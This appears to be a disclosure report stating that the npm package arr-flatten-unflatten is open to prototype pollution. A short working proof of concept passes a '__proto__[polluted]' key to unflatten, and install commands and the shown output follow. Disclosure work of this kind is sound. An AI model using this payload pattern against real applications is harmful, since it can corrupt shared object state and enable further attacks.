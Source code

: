 # Description

`arr-flatten-unflatten` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var arrFlattenUnflatten = require("arr-flatten-unflatten")
console.log("Before : " + {}.polluted);
arrFlattenUnflatten.unflatten({'__proto__[polluted]': 'Yes! Its Polluted'});
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i arr-flatten-unflatten # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
